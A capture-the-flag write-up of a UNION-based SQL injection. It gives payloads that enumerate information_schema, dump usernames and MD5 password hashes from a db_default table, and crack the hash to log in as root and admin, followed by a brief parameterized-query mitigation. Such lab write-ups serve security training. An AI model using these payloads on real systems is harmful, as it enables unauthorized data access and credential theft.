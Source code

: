 # db_default SQL Injection

`1 or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`
There is a `db_default` table on the database as well in the database `Member_Brute_Force`

>db_default -> hex = 0x64625f64656661756c74

`1 or 1=1 UNION SELECT NULL,group_concat(column_name) FROM information_schema.columns where table_name = 0x64625f64656661756c74`

>id,username,password

`1 or 1=1 UNION SELECT NULL,group_concat(id,0x0a,username,0x0a,password) from Member_Brute_Force.db_default`

>1
root
3bf1114a986ba87ed28fc1b5884fc2f8,2
admin
3bf1114a986ba87ed28fc1b5884fc2f8

>3bf1114a986ba87ed28fc1b5884fc2f8 MD5 decoded -> shadow

Sign in with root:shadow or admin:shadow from link on main page or {ip}/?page=signin

Flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

# Mitigation

Do not blindly enter user input into hardcoded SQL statements. Instead use a library that sanitizes and prepares SQL statements for you using the parameters a user gives.
